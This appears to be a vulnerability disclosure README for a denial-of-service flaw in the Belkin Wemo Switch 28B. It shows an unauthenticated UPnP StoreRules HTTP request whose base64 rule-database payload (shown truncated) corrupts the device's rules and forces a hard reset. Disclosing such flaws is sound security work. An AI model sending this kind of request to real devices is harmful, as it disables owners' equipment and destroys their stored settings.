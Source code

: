 # DoS Vulnerability in the Wemo Switch 28B

The Wemo Switch is a smart socket developed by Belkin. In this blogpost, I consider the Wemo switch 28B, whereas the firmware version is WeMo_WW_2.00.11057.PVT-OWRT-SNS.

The way the rules are handled in the device's firmware allows an attacker to perform a DoS on the device and corrupt the database in a way that the app cannot recover, making the user unable to set/remove any rules.

In particular, the device stores rules in an internal database, which is sent by the app (in a compressed format), every time a rule is added (or removed). No authentication is required.

This repo contains the exploit to perform the DoS. As you can see, once the new database is accepted by the device, further rules from the app are not accepted, and the user must hard reset the device, losing all the information they previously stored.

Below, the generated HTTP request.

```
 POST /upnp/control/rules1 HTTP/1.1\r\n
    Host: 10.250.250.144:49153\r\n
    Accept: */*\r\n
    Content-Type: text/xml; charset="utf-8"\r\n
    SOAPACTION: "urn:Belkin:service:rules:1#StoreRules"\r\n
    User-Agent: CyberGarage-HTTP/1.0\r\n
    Content-Length: 1004\r\n
    <?xml
        version="1.0"
        encoding="utf-8"
        ?>
    <s:Envelope
        xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"
        s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
        <s:Body>
            <u:StoreRules
                xmlns:u="urn:Belkin:service:rules:1">
                <ruleDbVersion>
                    12
                    </ruleDbVersion>
                <processDb>
                    1
                    </processDb>
                <ruleDbBody>
                     [truncated]&lt;![CDATA[UEsDBBQAAAAIAIN6kEyxkTDHIgEAAADAAAASABwAdGVtcHBsdWdpblJ1bGVzLmRiVVQJAAOWIdValiHVWnV4CwABBOgDAAAE6AMAAO3Wu0rDYACG4T9tjba1WFwcumRU1MkbsEoXETwuTqVKBMUDar2zDt6JVyHi6uQvCEIFD4ux9nnCGxIC4cuWvZ3Nk36eHV9en/f62UpohiQJq1kWQmj
                    </ruleDbBody>
                </u:StoreRules>
            </s:Body>
        </s:Envelope>
 ```

